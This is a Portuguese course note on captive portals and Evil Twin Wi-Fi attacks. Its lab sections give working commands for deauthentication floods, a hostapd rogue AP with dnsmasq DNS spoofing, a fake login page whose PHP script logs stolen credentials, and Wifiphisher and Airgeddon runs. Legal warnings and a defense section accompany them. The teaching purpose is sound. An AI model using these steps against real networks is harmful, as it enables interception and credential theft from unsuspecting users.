


# Captive Portal e Evil Twin

> [!quote] A Porta de Entrada
> *Em redes públicas, antes de navegar livremente, você precisa passar pelo portão de controle. O atacante constrói um portão falso idêntico ao original.*

---

## 🔐 O que é Captive Portal?

> [!info] Definição
> **Captive Portal** é um mecanismo que **intercepta a primeira requisição HTTP/HTTPS** do usuário em uma rede sem fio e redireciona para uma página web controlada pelo administrador da rede.

### Funções Comuns

- Autenticar o usuário (login/senha)
- Registrar dados (nome, e-mail, CPF)
- Exigir aceite de termos de uso
- Mostrar publicidade antes de liberar navegação

---

## ⚙️ Como Funciona Tecnicamente?

> [!tip] Fluxo de Funcionamento

```
1. Usuário conecta-se ao Access Point (AP)
         ↓
2. Gateway identifica que não há autenticação ativa
         ↓
3. Primeira tentativa de acesso é REDIRECIONADA
         ↓
4. Página do Captive Portal é exibida
         ↓
5. Usuário fornece credenciais/aceita termos
         ↓
6. Sistema valida → libera tráfego normal
```

### Diagrama Mermaid: Fluxo Completo do Captive Portal



### Mecanismos de Redirecionamento

O captive portal usa três abordagens principais para capturar o cliente:

| Técnica | Como Funciona | Limitação |
|---------|--------------|-----------|
| **DNS spoofing** | dnsmasq responde todos os domínios com IP do portal (`address=/#/IP`) | Não funciona com DNS sobre HTTPS (DoH) |
| **HTTP redirect (iptables)** | Regra de NAT redireciona porta 80 para o portal antes da liberação | HTTPS (443) quebra com erro de certificado |
| **ICMP redirect** | Gateway injeta respostas ICMP para redirecionar rota | Bloqueado por firewalls modernos |
| **Walled garden** | Só o IP do portal é acessível antes da autenticação | Bypass via IP direto de destino permitido |

---

## 🏢 Aplicações Práticas

> [!success] Onde é Utilizado

| Local | Objetivo |
|-------|----------|
| **Hotéis/Aeroportos** | Garantir que apenas hóspedes/passageiros usem a rede |
| **Empresas/Universidades** | Controlar acesso e coletar métricas de uso |
| **Cafés/Comércios** | Exibir publicidade ou coletar e-mails para marketing |
| **Eventos** | Controlar acesso temporário de participantes |

---

## ✅ Vantagens

> [!info] Benefícios

- Controle de acesso sem fio
- Facilidade de autenticação (via web, sem configuração manual)
- Integração com sistemas de cadastro e marketing
- Registro de uso para compliance
- Possibilidade de limite de tempo/banda

---

## ⚠️ Limitações

> [!warning] Pontos Fracos

| Limitação | Descrição |
|-----------|-----------|
| **Bypass possível** | Pode ser contornado com VPN ou MAC spoofing |
| **UX problemática** | Redirecionamentos podem falhar em HTTPS |
| **Manutenção** | Necessidade de constante atualização |
| **Segurança** | Dados podem ser interceptados se não usar HTTPS |

---

## 😈 Evil Twin: O Lado Ofensivo

### O que é um Evil Twin?

Um **Evil Twin** (gêmeo malvado) é um ponto de acesso (AP) rogue que clona o SSID, e frequentemente o BSSID (endereço MAC), de uma rede Wi-Fi legítima. O objetivo é fazer com que os dispositivos da vítima se conectem ao AP falso em vez do real, permitindo ao atacante realizar um ataque **Man-in-the-Middle (MitM)** completo.

O nome vem da ideia de que existe uma cópia maliciosa de uma rede confiável, visualmente indistinguível da original para o usuário.

### Diferença entre Rogue AP e Evil Twin

| Conceito | Rogue AP | Evil Twin |
|----------|----------|-----------|
| **Definição** | Qualquer AP não autorizado conectado à rede | AP que imita especificamente um AP legítimo |
| **SSID** | Qualquer nome | Idêntico ao alvo |
| **BSSID** | Qualquer MAC | Clona o MAC do AP legítimo |
| **Objetivo** | Varia (acesso à LAN, escuta) | Captura de credenciais, MitM |
| **Detecção** | Mais fácil (SSID diferente) | Muito difícil (idêntico ao original) |

---

## 🔧 Técnicas e Vetores de Ataque

### Vetor 1: Ataque de Desautenticação (Deauth)

O protocolo 802.11 original permite que frames de gerenciamento (management frames) sejam enviados sem autenticação. Um atacante usa essa falha para enviar pacotes **Deauthentication** ou **Disassociation** forjados, expulsando os clientes da rede legítima.

Quando o dispositivo perde a conexão, automaticamente tenta reconectar ao AP com o sinal mais forte. Se o Evil Twin estiver mais próximo da vítima (ou usando potência maior), o dispositivo se conecta ao AP falso.

```bash
# Colocar interface em modo monitor
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

# Identificar alvos (BSSID do AP legítimo + canal)
airodump-ng wlan0

# Ataque de deauth massivo contra o AP alvo (--deauth 0 = contínuo)
# APENAS em lab isolado com equipamentos próprios
aireplay-ng --deauth 0 -a <BSSID_AP_LEGÍTIMO> wlan0
```

> [!danger] 🚨 Art. 154-A do Código Penal Brasileiro
> **"Invadir dispositivo informático de uso alheio, conectado ou não à rede de computadores, com o fim de obter, adulterar ou destruir dados ou informações sem autorização expressa ou tácita do titular do dispositivo ou instalar vulnerabilidades para obter vantagem ilícita."**
> **Pena: detenção de 3 meses a 1 ano e multa.**
>
> Deauth attack contra redes reais de terceiros, configurar Evil Twin para capturar credenciais de usuários sem autorização, e redirecionar tráfego de vítimas reais são **crimes federais**. O ambiente de laboratório isolado, com equipamentos e contas próprias, é o ÚNICO contexto legal para praticar essas técnicas.

---

## 🗺️ Diagrama: Anatomia do Ataque Evil Twin com Captive Portal



---

## 🛠️ Ferramentas Reais de Lab

### Stack Manual: hostapd + dnsmasq + nginx

Esta é a abordagem mais educativa, porque você entende cada camada individualmente antes de usar frameworks automatizados.

#### Passo 1: Configurar o hostapd (Access Point)

```bash
# Instalar dependências
sudo apt update && sudo apt install -y hostapd dnsmasq nginx

# /etc/hostapd/hostapd.conf
cat > /tmp/hostapd.conf << 'EOF'
interface=wlan0          # interface Wi-Fi (modo monitor, depois AP)
driver=nl80211
ssid=Rede_IFF_Lab        # nome da rede (SSID do alvo em lab real)
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
# Para WPA2 (opcional, evil twin pode ser aberto)
# wpa=2
# wpa_passphrase=senha_qualquer
# wpa_key_mgmt=WPA-PSK
EOF

# Subir o AP
sudo hostapd /tmp/hostapd.conf &
```

#### Passo 2: Configurar IP na interface AP e DHCP com dnsmasq

```bash
# Atribuir IP à interface que serve como AP
sudo ip addr add 10.0.0.1/24 dev wlan0

# /etc/dnsmasq.conf (ou arquivo temporário)
cat > /tmp/dnsmasq.conf << 'EOF'
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.100,12h
dhcp-option=3,10.0.0.1        # gateway
dhcp-option=6,10.0.0.1        # DNS server
# Redirecionar TODOS os domínios para nosso portal (DNS spoofing)
address=/#/10.0.0.1
log-queries                    # logar todas as queries DNS
log-facility=/tmp/dns-queries.log
EOF

sudo dnsmasq -C /tmp/dnsmasq.conf --no-daemon &
```

#### Passo 3: Ativar NAT para dar Internet à vítima (evita suspeita)

```bash
# Habilitar IP forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Interface com acesso à Internet (ex: eth0)
INET_IFACE="eth0"
AP_IFACE="wlan0"

# NAT via iptables
sudo iptables -t nat -A POSTROUTING -o $INET_IFACE -j MASQUERADE
sudo iptables -A FORWARD -i $AP_IFACE -o $INET_IFACE -j ACCEPT
sudo iptables -A FORWARD -i $INET_IFACE -o $AP_IFACE -m state --state RELATED,ESTABLISHED -j ACCEPT

# Redirecionar porta 80 para nosso portal ANTES de liberar a vítima
sudo iptables -t nat -A PREROUTING -i $AP_IFACE -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:8080
```

#### Passo 4: Portal de captura (nginx + PHP simples)

```bash
# Criar página de login falsa (em lab: sua própria conta de teste)
cat > /var/www/html/index.html << 'EOF'
<!DOCTYPE html>
<html lang="pt-BR">
<head><meta charset="UTF-8"><title>Rede IFF - Autenticação</title></head>
<body>
  <h2>Rede Institucional IFF</h2>
  <p>Por favor, insira suas credenciais para continuar.</p>
  <form action="/captura.php" method="POST">
    <input type="text" name="usuario" placeholder="Usuário" required><br>
    <input type="password" name="senha" placeholder="Senha" required><br>
    <button type="submit">Entrar</button>
  </form>
</body>
</html>
EOF

# Script PHP para logar credenciais (em lab)
cat > /var/www/html/captura.php << 'EOF'
<?php
$usuario = $_POST['usuario'] ?? '';
$senha   = $_POST['senha'] ?? '';
$ip      = $_SERVER['REMOTE_ADDR'];
$log     = date('Y-m-d H:i:s') . " | IP: $ip | Usuário: $usuario | Senha: $senha\n";
file_put_contents('/tmp/credenciais-capturadas.txt', $log, FILE_APPEND);
// Redirecionar para página legítima após captura
header('Location: http://www.google.com');
?>
EOF

sudo nginx -c /etc/nginx/nginx.conf &
```

#### Passo 5: Monitorar capturas em tempo real

```bash
# Monitorar credenciais capturadas
tail -f /tmp/credenciais-capturadas.txt

# Monitorar queries DNS (quem está tentando acessar o quê)
tail -f /tmp/dns-queries.log
```

---

### Ferramenta Automatizada 1: Wifiphisher

O **Wifiphisher** é um framework de rogue AP que automatiza todo o processo de clonagem, deauth e phishing em uma única ferramenta. Disponível por padrão no Kali Linux, é a ferramenta mais utilizada em avaliações de segurança Wi-Fi.

#### Instalação

```bash
# No Kali Linux (já disponível)
sudo apt install wifiphisher

# Ou via Git
git clone https://github.com/wifiphisher/wifiphisher.git
cd wifiphisher && sudo python3 setup.py install
```

#### Modo de Operação

O Wifiphisher opera em três fases automáticas:

1. **Jamming:** envia frames Deauth/Disassoc contínuos para expulsar clientes do AP legítimo
2. **Rogue AP:** cria um AP clone com SSID idêntico, sem senha (ou com senha fraca)
3. **Phishing:** sobe servidor web com template de captive portal e captura credenciais

#### Cenários (Phishing Scenarios) Disponíveis

| Cenário | Arquivo | O que simula |
|---------|---------|-------------|
| `firmware-upgrade` | `firmware-upgrade.pyhtml` | Atualização de firmware do roteador (pede senha Wi-Fi) |
| `oauth-login` | `oauth-login.pyhtml` | Tela de login OAuth (Facebook, Google) |
| `wifi_connect` | `wifi_connect.pyhtml` | Reconexão à rede Wi-Fi (pede senha) |
| `browser-plugin-update` | `browser-plugin-update.pyhtml` | Atualização de plugin do browser (entrega payload) |
| `plugin_update` | `plugin_update.pyhtml` | Flash/Java desatualizado |
| `network-manager-connect` | `network-manager-connect.pyhtml` | Imita o NetworkManager do Linux |

#### Comandos Práticos (lab isolado)

```bash
# Modo interativo: lista APs e deixa escolher o alvo
sudo wifiphisher

# Ataque direto a SSID específico com cenário de firmware
sudo wifiphisher -aI wlan0 -jI wlan1 \
  --essid "MinhaRedeLabTeste" \
  --phishing-pages firmware-upgrade \
  -kB

# Parâmetros importantes:
# -aI wlan0   : interface para o AP rogue
# -jI wlan1   : interface para o jamming (deauth) - precisa de 2 adaptadores
# --essid     : SSID a clonar (ou usa a seleção interativa)
# -kB         : Known Beacons - tenta descobrir redes salvas no dispositivo
# -pK         : KARMA attack - responde a qualquer probe request

# Ver credenciais capturadas (output direto no terminal e em log)
# Wifiphisher exibe em tempo real na interface TUI
```

> [!warning] Dois adaptadores Wi-Fi
> Para usar o Wifiphisher com deauth simultânea, você precisa de **dois adaptadores Wi-Fi** que suportem modo monitor/inject. Em lab com 1 adaptador, o jammer é desativado, mas o ataque ainda funciona via KARMA ou se o cliente se conectar manualmente.

---

### Ferramenta Automatizada 2: Airgeddon

O **Airgeddon** é um script bash multi-ferramenta que combina airodump-ng, aireplay-ng, hostapd e dnsmasq em uma interface de menu interativa. Especialmente útil para demonstrações e pentest wi-fi hands-on em lab.

#### Instalação

```bash
git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git
cd airgeddon
sudo bash airgeddon.sh
```

#### Fluxo do Ataque Evil Twin via Airgeddon

```
Menu Principal
  → 7. Evil Twin attacks menu
    → 9. Evil twin attack with captive portal (monitor needed)

Airgeddon então:
1. Escaneia redes Wi-Fi próximas (airodump-ng)
2. Usuário seleciona o SSID alvo
3. Airgeddon gera automaticamente:
   - hostapd.conf (cópia do AP alvo)
   - dnsmasq.conf (DHCP + DNS spoofing)
   - lighttpd.conf (servidor web do portal)
   - Scripts iptables de NAT
4. Inicia deauth contra o AP legítimo (aireplay-ng)
5. Aguarda cliente conectar ao Evil Twin
6. Exibe credenciais capturadas em tempo real
```

```bash
# O airgeddon gerencia tudo via menus, mas internamente executa:

# Geração automática do hostapd para o Evil Twin
# (arquivo gerado pelo airgeddon em /tmp/hostapd.conf)
cat /tmp/hostapd.conf
# interface=wlan0
# driver=nl80211
# ssid=NOME_DO_ALVO
# channel=<canal_do_alvo>

# Deauth contínuo (airgeddon executa em background)
aireplay-ng --deauth 0 -a <BSSID_ALVO> wlan1

# Captura de credenciais
cat /tmp/evil_twin_captive_portal_logfile.txt
```

#### Vantagem do Airgeddon vs Wifiphisher

| Aspecto | Wifiphisher | Airgeddon |
|---------|-------------|-----------|
| **Linguagem** | Python | Bash (dependencies externas) |
| **Interface** | TUI Python | Menu shell interativo |
| **Templates** | Muitos incluídos | Menos, mas personalizável |
| **Controle granular** | Menor | Maior (acesso a cada etapa) |
| **Didático em aula** | Excelente para ver o todo | Excelente para entender as partes |
| **mdk4 support** | Não | Sim (deauth mais agressivo) |

---

## 🧪 Atividades de Laboratório

> [!example] 🧪 Atividade 1: Subir um Captive Portal Real com hostapd + dnsmasq

**Objetivo:** Compreender a pilha técnica completa de um captive portal, montando cada componente manualmente antes de usar ferramentas automatizadas.

**Pré-requisitos:**
- Kali Linux (VM ou bare metal)
- 1 adaptador Wi-Fi com suporte a modo AP (ex: Alfa AWUS036ACS, rtl8812au)
- Roteador ou switch próprio (lab isolado, sem conexão a redes de terceiros)
- Dispositivo de teste próprio (celular ou notebook pessoal)

**Passos:**

```bash
# 1. Verificar se o adaptador suporta modo AP
iw list | grep "Supported interface modes" -A 10

# 2. Instalar dependências
sudo apt update && sudo apt install -y hostapd dnsmasq nginx php-fpm iptables

# 3. Parar serviços conflitantes
sudo systemctl stop NetworkManager
sudo airmon-ng check kill

# 4. Configurar o hostapd
sudo bash -c 'cat > /etc/hostapd/lab.conf << EOF
interface=wlan0
driver=nl80211
ssid=LabIFF-CaptiveTest
hw_mode=g
channel=6
wmm_enabled=0
auth_algs=1
EOF'

# 5. Configurar interface e DHCP
sudo ip link set wlan0 up
sudo ip addr add 192.168.99.1/24 dev wlan0
sudo bash -c 'cat > /tmp/dnsmasq-lab.conf << EOF
interface=wlan0
dhcp-range=192.168.99.10,192.168.99.50,1h
dhcp-option=3,192.168.99.1
dhcp-option=6,192.168.99.1
address=/#/192.168.99.1
log-queries
log-facility=/tmp/lab-dns.log
EOF'

# 6. Subir os serviços
sudo hostapd /etc/hostapd/lab.conf &
sudo dnsmasq -C /tmp/dnsmasq-lab.conf &

# 7. Redirecionar porta 80 para nginx local (porta 8080)
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 \
  -j DNAT --to-destination 192.168.99.1:8080
```

**Com o dispositivo de teste (seu celular):**
- Conectar à rede `LabIFF-CaptiveTest` (sem senha)
- Tentar abrir qualquer URL no browser
- Observar o redirect para `http://192.168.99.1`
- Ver a página de login aparecer

**Resultado esperado:** O browser do celular é automaticamente redirecionado para sua página, sem precisar digitar IP. Todo domínio que o cliente tentar (google.com, youtube.com) responde com seu IP graças ao `address=/#/IP` no dnsmasq.

**Logs para análise:**
```bash
# Ver todas as queries DNS capturadas
tail -f /tmp/lab-dns.log

# Verificar clientes conectados via DHCP
cat /var/lib/misc/dnsmasq.leases
```

---

> [!example] 🧪 Atividade 2: Observar o Fluxo do Wifiphisher/Airgeddon em Lab Isolado

**Objetivo:** Entender como um framework automatizado executa as etapas do ataque Evil Twin (clone + deauth + phishing) e interpretar os logs gerados, sem nunca sair da rede de laboratório.

**Pré-requisitos:**
- Kali Linux com 2 adaptadores Wi-Fi (1 para AP rogue, 1 para deauth)
- Roteador Wi-Fi próprio para simular o "AP legítimo alvo"
- Dispositivo próprio para simular a vítima
- Rede isolada (sem clientes reais)

**Parte A: Wifiphisher**

```bash
# Instalar
sudo apt install -y wifiphisher

# Subir em modo interativo
sudo wifiphisher

# Na TUI do Wifiphisher:
# 1. Selecionar a interface para o AP rogue (wlan0)
# 2. Selecionar a interface para o jammer (wlan1)
# 3. Selecionar o SSID do seu roteador de lab na lista
# 4. Escolher o cenário: "firmware-upgrade"
# 5. Observar:
#    - Coluna "Deauthentication Packets Sent" aumentando
#    - Seu dispositivo de teste sendo desconectado do roteador real
#    - Dispositivo reconectando ao Evil Twin
#    - Browser abrindo a tela de "Atualização de Firmware"
# 6. No dispositivo de teste: digitar uma senha qualquer (sua conta de teste)
# 7. Observar o log na parte inferior do terminal do Wifiphisher
```

**Parte B: Airgeddon (alternativo)**

```bash
# Clonar e executar
git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git
cd airgeddon
sudo bash airgeddon.sh

# No menu:
# Opção 2 → Selecionar interface
# Opção 7 → Evil Twin attacks menu
# Opção 9 → Evil Twin with captive portal
# Seguir os prompts: escanear, selecionar SSID do lab, aguardar conexão
```

**O que observar e documentar:**
- Quais processos são iniciados pelo Airgeddon (ps aux | grep -E 'hostapd|dnsmasq|lighttpd|aireplay')
- O conteúdo dos arquivos de config gerados em `/tmp/`
- O momento exato em que o dispositivo muda de AP (monitorar com `watch iwconfig`)
- O arquivo de log com credenciais capturadas

**Resultado esperado:** Você observará a transição completa: dispositivo de teste cai do AP real, reconecta ao rogue AP, browser exibe portal falso, credencial digitada aparece no terminal em tempo real.

---

> [!example] 🧪 Atividade 3: Testar Defesas contra o Captive Portal Falso

**Objetivo:** Verificar na prática quais defesas funcionam para detectar ou mitigar um Evil Twin/captive portal malicioso.

**Pré-requisitos:**
- Lab da Atividade 1 ou 2 ativo (Evil Twin com captive portal falso)
- Dispositivo de teste conectado ao Evil Twin
- VPN instalada no dispositivo de teste (ex: Mullvad, ProtonVPN em modo free, ou WireGuard com server próprio)

**Teste 1: VPN como defesa primária**

```bash
# Com o dispositivo de teste conectado ao Evil Twin:
# Ativar VPN no dispositivo

# Observar no terminal do lab:
# 1. DNS queries param de aparecer no log (VPN encriptou o DNS)
# 2. iptables não consegue fazer DNAT no tráfego VPN (porta 51820 UDP passa)
# 3. Captive portal NÃO aparece mais para o dispositivo com VPN ativa
sudo tcpdump -i wlan0 -n port 51820  # ver tráfego WireGuard passando

# Conclusão: VPN ativa ANTES de interagir com o portal
# é a defesa mais eficaz contra Evil Twin
```

**Teste 2: HSTS/HTTPS como indicador de alerta**

```bash
# Tentar acessar um site HTTPS a partir do dispositivo de teste (sem VPN)
# Ex: https://www.google.com

# Resultado esperado:
# - Erro de certificado no browser (NET::ERR_CERT_AUTHORITY_INVALID)
# - O browser BLOQUEIA o acesso (HSTS preloaded)
# - Isso é um SINAL DE ALERTA de que algo está errado com a rede

# Sites com HSTS preloaded (verificar em https://hstspreload.org/):
curl -I https://www.google.com 2>/dev/null | grep -i hsts
```

**Teste 3: Comparar certificado TLS do portal**

```bash
# Inspecionar o certificado TLS que o portal falso apresenta
echo | openssl s_client -connect 192.168.99.1:443 2>/dev/null | \
  openssl x509 -noout -issuer -subject -dates

# Em um portal legítimo: certificado emitido por CA confiável, domínio correto
# Em um portal falso: certificado autoassinado, domínio diferente, erro no browser
```

**Checklist de alerta para os alunos (o que verificar antes de digitar qualquer credencial):**

| Indicador | Seguro | Suspeito |
|-----------|--------|----------|
| Certificado TLS | CA confiável, cadeado verde | Autoassinado, erro de certificado |
| URL do portal | Domínio do estabelecimento | IP direto ou domínio desconhecido |
| Rede pede senha Wi-Fi | Nunca legítimo | Claro sinal de Evil Twin |
| VPN conecta normalmente | Tráfego flui | VPN bloqueada pelo portal |
| DNS resolve corretamente | IPs diferentes por domínio | Tudo responde o mesmo IP |

---

## 🛡️ Defesas e Contramedidas

> [!success] Como se Proteger

### Para Usuários Finais

1. **VPN sempre ativa em redes públicas:** conectar a VPN ANTES de interagir com qualquer portal. A VPN encripta o tráfego DNS e HTTP, tornando o captive portal falso ineficaz.

2. **Nunca digitar a senha da rede Wi-Fi em um captive portal:** redes legítimas não pedem a senha do Wi-Fi em portais web; apenas usuário/voucher/CPF. Se o portal pedir sua senha Wi-Fi, é Evil Twin.

3. **Verificar o certificado TLS:** antes de digitar qualquer dado, conferir se o cadeado está verde e o domínio corresponde ao local. Portal sem HTTPS ou com certificado inválido é sinal de ataque.

4. **Desconfiar de portais que pedem dados sensíveis:** portais legítimos pedem no máximo e-mail e aceite de termos. Nunca senha de redes sociais, e-mail corporativo ou senhas pessoais.

5. **Usar HTTPS-Only Mode no browser:** Chrome, Firefox e Safari têm modo HTTPS obrigatório, que bloqueia automaticamente conexões sem TLS válido.

### Para Administradores de Rede

| Defesa | Descrição | Eficácia contra Evil Twin |
|--------|-----------|--------------------------|
| **802.1X/WPA-Enterprise** | Autenticação por certificado via RADIUS; cliente verifica certificado do servidor | Alta: Evil Twin sem o certificado RADIUS legítimo falha na autenticação |
| **WPA3-Enterprise** | Evolução do WPA2-Enterprise com validação obrigatória de certificado | Muito Alta: certificate pinning obrigatório |
| **WIDS (Wireless IDS)** | Monitora o espectro RF para detectar APs com SSID clonado | Alta: detecta Evil Twin por BSSID diferente |
| **Management Frame Protection (802.11w)** | Autenticação dos frames de gerenciamento (deauth, disassoc) | Alta: bloqueia ataques de deauth |
| **VPN mandatória** | Política corporativa que exige VPN em qualquer rede externa | Alta: protege mesmo se vítima conectar ao Evil Twin |
| **Certificate Pinning** | Apps corporativos rejeitam qualquer certificado que não seja o esperado | Alta: apps não comunicam via MitM |

### 802.1X: Por que é a Defesa Mais Robusta

No WPA2-Personal (pré-shared key), qualquer um que saiba a senha pode criar um Evil Twin com a mesma senha e o cliente se conecta. Com **WPA2/WPA3-Enterprise + EAP-TLS**:

1. Cliente apresenta seu certificado ao servidor RADIUS
2. **Cliente valida o certificado do servidor RADIUS**
3. Se o Evil Twin não tiver o certificado RADIUS legítimo (chave privada), a conexão falha na etapa 2
4. O cliente recusa a conexão automaticamente, sem intervenção humana

```
WPA2-Personal:      AP fake sabe a senha → ataque funciona
WPA2-Enterprise:    AP fake não tem o cert. RADIUS legítimo → ataque falha
WPA3-Enterprise:    idem + validação obrigatória (não opcional como no WPA2)
```

---

## 🏢 Aplicações Legítimas do Captive Portal (Reforço)

> [!info] Implementações Legítimas

| Ferramenta | Descrição | Uso Recomendado |
|------------|-----------|----------------|
| **pfSense** | Firewall open-source com captive portal integrado | PMEs, laboratórios |
| **OPNsense** | Fork do pfSense com interface moderna | Ambientes corporativos |
| **NoDogSplash** | Solução leve para roteadores OpenWrt | Hotspots simples |
| **WiFiDog** | Portal para hotspots públicos | Eventos, cafés |
| **Chillispot/CoovaChilli** | Solução completa com RADIUS | ISPs, hotéis |
| **PacketFence** | NAC (Network Access Control) com captive portal | Grandes empresas |

---

## 🔎 Relacionado

- [[Fundamentos e conceitos de Redes Sem Fio|Redes Sem Fio]]
- [[Ataques em rede local|Man-in-the-Middle]]
- [[Criptografia]]
- **Firewalls e Controle de Acesso**
- **Frameworks:** **Kali Linux** | [[Exploração do alvo|Metasploit]]

---

> [!note] 📚 Fontes (2025-2026)
>
> - [What is an Evil Twin Attack? (LastPass Blog, 2026)](https://blog.lastpass.com/posts/evil-twin-attack)
> - [Evil Twin WiFi Attack: A Step-By-Step Guide (StationX, 2025)](https://www.stationx.net/evil-twin-wifi-attack/)
> - [Evil Twin Attack: What it is, How to Detect & Prevent it (Varonis, 2025)](https://www.varonis.com/blog/evil-twin-attack)
> - [Wifiphisher: The Ultimate Wireless Phishing Tool for Ethical Hackers in 2025 (TheTechCrime)](https://thetechcrime.com/wifiphisher/)
> - [Wi-Fi Phishing Attacks with Wifiphisher: A Professional Walkthrough (GeekInstitute, mai/2025)](https://blog.geekinstitute.org/2025/05/wi-fi-phishing-attacks-with-wifiphisher.html)
> - [How does Airgeddon integrate Evil Twin attacks (Airgeddon.com, jun/2025)](https://airgeddon.com/2025/06/23/how-does-airgeddon-integrate-evil-twin-attacks-using-hostapd-and-what-makes-it-effective-for-credential-harvesting/)
> - [Captive Portal Guide: Setup Your Fake Access Point (Shellvoide)](https://www.shellvoide.com/wifi/how-to-setup-captive-portal-login-with-rogue-ap-nginx/)
> - [Building a Rogue AP Lab (InfiShark Tech)](https://infishark.com/blogs/learn/building-a-rogue-ap-lab)
> - [5 Cyberattacks Mitigated by 802.1X Wi-Fi (CloudRADIUS)](https://cloudradius.com/5-cyberattacks-mitigated-by-802-1x-wi-fi/)
> - [What is an Evil Twin attack? Protection with 802.1X (SecureW2, 2025)](https://securew2.com/blog/what-is-an-evil-twin-attack-in-wi-fi-and-how-can-i-protect-against-it)
> - [Wifiphisher Documentation (Read the Docs)](https://wifiphisher.readthedocs.io/en/stable/)
> - [Wifiphisher no Kali Linux Tools](https://www.kali.org/tools/wifiphisher/)
> - [Wireless Penetration Testing Cheatsheet (HackingDream, 2025)](https://www.hackingdream.net/2025/08/wireless-penetration-testing-cheatsheet.html)
> - [EvilAP: Rogue AP with Fake Login Page (a6n.co.uk, mai/2025)](https://www.a6n.co.uk/2025/05/evilap-rogue-access-point-with-fake.html)
> - [A Robust Certificate Management System to Prevent Evil Twin Attacks (arXiv)](https://arxiv.org/pdf/2302.00338)
